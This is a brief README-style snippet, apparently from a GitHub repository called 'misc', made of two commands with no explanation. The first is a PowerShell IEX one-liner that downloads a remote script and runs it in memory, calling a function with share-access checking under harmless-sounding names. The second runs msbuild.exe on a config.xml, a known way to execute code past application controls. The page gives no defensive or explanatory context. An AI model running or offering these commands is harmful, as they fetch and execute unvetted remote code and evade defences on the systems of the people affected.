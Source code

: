 # misc

IEX (New-Object Net.Webclient).downloadstring('https://github.com/brethbwaite/misc/raw/master/ConfigReader.ps1');Invoke-Formatter -Threads 10 -CheckShareAccess -Verbose | Out-File -Encoding ascii is.txt


C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe config.xml
